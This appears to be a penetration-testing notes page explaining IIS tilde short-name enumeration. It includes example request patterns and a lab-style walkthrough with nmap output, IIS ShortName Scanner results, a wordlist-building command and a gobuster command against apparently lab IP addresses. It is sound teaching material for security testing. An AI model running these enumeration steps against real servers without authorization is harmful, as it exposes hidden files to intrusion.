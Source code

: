 ```yaml
---
description: >-
  IIS tilde directory enumeration is a technique utilised to uncover hidden
  files, directories, and short file names on some versions of IIS web servers
---
```


# IIS Tilde Enumeration

* Windows generates short file name in 8.3 format when a file or folder is created on IIS server
* Contains 8 characters, . , and 3 characters for extesion.
* The tilde (`~`) character, followed by a sequence number, signifies a short file name in a URL.
* IIS tilde directory enumeration sends HTTP requests to the server with distinct character combinations to identify valid short file names.

The enumeration process starts by sending requests with various characters following the tilde:

```http
http://example.com/~a
http://example.com/~b
http://example.com/~c
...
```

Assume the server contains a hidden directory named SecretDocuments. When a request is sent to `http://example.com/~s`, the server replies with a `200 OK` status code, revealing a directory with a short name beginning with "s". The enumeration process continues by appending more characters:

```http
http://example.com/~se
http://example.com/~sf
http://example.com/~sg
...
```

For instance, if the short name `secre~1` is determined for the concealed directory SecretDocuments, files in that directory can be accessed by submitting requests such as:

```http
http://example.com/secre~1/somefile.txt
http://example.com/secre~1/anotherfile.docx
```

After obtaining the short names, those files can be directly accessed using the short names in the requests.

```http
http://example.com/secre~1/somefi~1.txt
```

The numbers following the tilde (`~`) assist the file system in differentiating between files that share similarities in their names, ensuring each file has a distinct 8.3 short file name.

* `somefi~1.txt` for `somefile.txt`
* `somefi~2.txt` for `somefile1.txt`

### Enumeration

```shell-session
nmap -p- -sV -sC --open 10.129.224.91

Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-14 19:44 GMT
Nmap scan report for 10.129.224.91
Host is up (0.011s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Bounty
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 183.38 seconds
```

IIS 7.5 is running on port 80. Executing a tilde enumeration attack on this version could be a viable option.

**Tilde Enumeration using IIS ShortName Scanner**

```shell-session
java -jar iis_shortname_scanner.jar 0 5 http://10.129.204.231/

Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Do you want to use proxy [Y=Yes, Anything Else=No]? 
# IIS Short Name (8.3) Scanner version 2023.0 - scan initiated 2023/03/23 15:06:57
Target: http://10.129.204.231/
|_ Result: Vulnerable!
|_ Used HTTP method: OPTIONS
|_ Suffix (magic part): /~1/
|_ Extra information:
  |_ Number of sent requests: 553
  |_ Identified directories: 2
    |_ ASPNET~1
    |_ UPLOAD~1
  |_ Identified files: 3
    |_ CSASPX~1.CS
      |_ Actual extension = .CS
    |_ CSASPX~1.CS??
    |_ TRANSF~1.ASP
```

**Generate Wordlist**

```shell-session
egrep -r ^transf /usr/share/wordlists/ | sed 's/^[^:]*://' > /tmp/list.txt
```

<table data-header-hidden><thead><tr><th width="138"></th><th></th></tr></thead><tbody><tr><td><strong>Command Part</strong></td><td><strong>Description</strong></td></tr><tr><td><code>egrep -r ^transf</code></td><td>search for lines containing a specific pattern in the input files. The <code>-r</code> flag indicates a recursive search through directories. The <code>^transf</code> pattern matches any line that starts with "transf". The output of this command will be lines that begin with "transf" along with their source file names.</td></tr><tr><td><code>|</code></td><td>The pipe symbol (<code>|</code>) is used to pass the output of the first command (<code>egrep</code>) to the second command (<code>sed</code>). In this case, the lines starting with "transf" and their file names will be the input for the <code>sed</code> command.</td></tr><tr><td><code>sed 's/^[^:]*://'</code></td><td>find-and-replace out of<code>egrep</code>. The expression tells <code>sed</code> to find any sequence of characters at the beginning of a line (<code>^</code>) up to the first colon (<code>:</code>), and replace them with nothing (removing the matched text). The result will be the lines starting with "transf" but without the file names and colons.</td></tr><tr><td><code>> /tmp/list.txt</code></td><td>The greater-than symbol (<code>></code>) is used to redirect the output of the entire command (i.e., the modified lines) to a new file named <code>/tmp/list.txt</code>.</td></tr></tbody></table>

**Gobuster Enumeration**

```shell-session
gobuster dir -u http://10.129.204.231/ -w /tmp/list.txt -x .aspx,.asp
```



![](<../../../.gitbook/assets/image (15) (3).png>)



